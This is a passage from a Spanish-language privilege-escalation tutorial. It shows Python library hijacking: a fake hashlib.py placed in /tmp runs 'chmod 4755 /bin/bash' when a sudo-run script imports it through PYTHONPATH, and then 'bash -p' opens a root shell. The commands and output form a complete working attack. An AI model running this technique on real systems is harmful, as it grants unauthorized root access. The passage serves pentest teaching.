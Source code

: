 Como en el caso anterior, creamos un módulo de python similar al que se esté importando (**hashlib.py**). En este caso como podemos elegir el origen del módulo, lo vamos a crear en el directorio **/tmp:**

```bash
pepito@parrot:/tmp$ cd $(mktemp -d)

pepito@parrot:/tmp/tmp.cus7yq315l$ touch hashlib.py && chmod +x hashlib.py

pepito@parrot:/tmp/tmp.cus7yq315l$ ls -l
total 4
-rwxr-xr-x 1 pepito pepito 44 jun 14 14:43 hashlib.py

pepito@parrot:/tmp/tmp.cus7yq315l$ cat hashlib.py 
import os
os.system("chmod 4755 /bin/bash")
```

Verificamos que antes de la ejecución del script no tenemos asignado el permido **SUID** al binario **/bin/bash**:

```bash
pepito@parrot:/tmp/tmp.cus7yq315l$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 feb 24 21:53 /bin/bash
```

Ejecutamos el script con los permisos de **SUDO** y la seteando la variable **PYTHONPATH** con el directorio donde hemos ubicado el archivo del módulo **_hashlib.py_** de python que hemos creado:

```bash

pepito@parrot:/tmp/tmp.cus7yq315l$ sudo PYTHONPATH=$(pwd) /usr/bin/python3 /home/pepito/checkpassword.py 1234
Traceback (most recent call last):
  File "/home/pepito/checkpassword.py", line 21, in <module>
    print(checkpassword(sys.argv[1], provided_hash))
  File "/home/pepito/checkpassword.py", line 10, in checkpassword
    hash = hashlib.sha256(password.encode()).hexdigest()
AttributeError: module 'hashlib' has no attribute 'sha256'

pepito@parrot:/tmp/tmp.cus7yq315l$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 feb 24 21:53 /bin/bash
```

Como vemos, el código que hemos definido en el módulo creado, ha sido ejecutado y tenemos permisos **SUID** en el binario **/bin/bash**, solo nos queda lanzar la shell de bash en contexto de usuario privilegiado **root**:

```bash
pepito@parrot:/tmp/tmp.cus7yq315l$ bash -p
bash-5.1# whoami
root
```

## Conclusión
